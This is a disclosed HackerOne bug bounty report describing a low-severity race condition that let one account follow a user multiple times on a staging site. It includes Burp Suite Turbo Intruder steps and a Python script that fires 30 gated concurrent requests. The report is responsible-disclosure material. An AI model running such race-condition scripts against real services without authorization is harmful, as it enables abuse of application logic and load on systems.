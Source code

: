 # Race Condition when following a user

## Report Details
- **Report ID**: 927384
- **URL**: https://hackerone.com/reports/927384
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-07-19T15:48:42.399Z
- **Disclosed**: 2020-09-09T05:51:17.666Z

## Reporter
- **Username**: bugra
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: stagingdoteverydotorg

## Vulnerability Information
## Summary:
Hi team,
There is a race condition vulnerability when following a user. If you send the `Follow` requests asynchronously, you can follow a user multiple times instead getting an error message.
I've been using Turbo Intruder extension at Burp Suite for trying Race Condition attacks. I can recommend it for reproduce this vulnerability.

## Steps To Reproduce:

  1. Go to any user's profile
  1. Turn on Intercept at Burp Suite and click `Follow` button
  1. Right click to follow request, click `Send to turbo intruder` and drop the request
  1. Add a fake header that contains `%s` value. Like `Test: %s `
  1. Paste this Python code to Turbo Intruder :
       ```python
def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=100,
                           pipeline=False
                           )

        for i in range(30):
            engine.queue(target.req, str(i), gate='race1')

        engine.openGate('race1')
        engine.complete(timeout=60)
def handleResponse(req, interesting):
        table.add(req)
       ```
 5. Click `Attack` button. Turbo Intruder will send 30 requests, check the status codes. If you see multiple responses with `201 Created` status, that means you followed the user multiple times.

## PoC Video :
{F913171}

## Impact

Race Condition vulnerability allows to following a user multiple times with one account

Thanks,
Bugra

## Attachments
- EveryRaceCondition.mp4
